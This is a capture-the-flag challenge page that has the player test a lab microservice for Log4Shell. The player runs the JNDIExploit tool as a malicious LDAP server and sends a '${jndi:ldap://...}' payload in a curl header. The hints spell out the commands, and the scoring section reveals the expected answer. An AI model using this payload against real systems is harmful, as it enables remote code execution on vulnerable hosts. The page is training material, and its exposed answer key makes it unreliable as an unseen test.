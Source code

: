 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is a Java program utilizing log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the Log4Shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the Log4Shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server, so you can run whatever commands you want inside its container.

You have to set up the server first. To do this, do the following:

1. Open the Terminal Emulator application from the dock on the bottom.
2. Navigate to the "hacker" folder.
3. Find your private IP address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like "10.0.XX.XX"
4. Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389… 
[+] HTTP Server Start Listening on 9001… 

To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: 

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer should look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

The "hostname -I" command outputs your private IP address.

Running "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" starts the server properly on your PRIVATEIPADDRESS.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

The answer isn't: "[+] Receive ClassRequest: SpringEchoTemplate.class"

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your IP address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
